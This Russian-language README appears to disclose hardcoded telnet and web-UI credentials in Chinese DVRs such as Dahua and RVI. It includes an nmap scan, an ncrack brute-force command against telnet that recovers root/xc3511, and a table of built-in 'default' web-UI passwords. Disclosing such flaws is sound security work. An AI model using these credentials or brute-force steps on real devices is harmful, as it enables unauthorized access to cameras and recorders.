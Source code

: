 # Hardcoded логин\пароль от telntet в китайских DVR, таких Dahua, RVI.
[English](README.md) [Русский](README.ru.md)

Так же они могут в продаже под другими брендами.

Nmap report выглядит любопытно:
```
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost
```
С помощью ncrack я "восстановил" учетные данные для telnet.
```
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
```
Конфигурационные файлы Web-ui хранятся в /mnt/mtd/Config/, но я не разобрался с хэшированым паролем в файле Account1.
Так же, в моем случае был крайне обрезаный BusyBox и не было возможности использовать sed за замены значения в строке. Хэш пустого пароля - tlJwpbo6.

Некоторое обновление.
Следующие учетные данные "вшиты" в Web-ui

|  login   | password |
|----------| ---------|
| default  | OxhlwSG8 |
| default  | tlJwpbo6 |
| default  | S2fGqNFs |
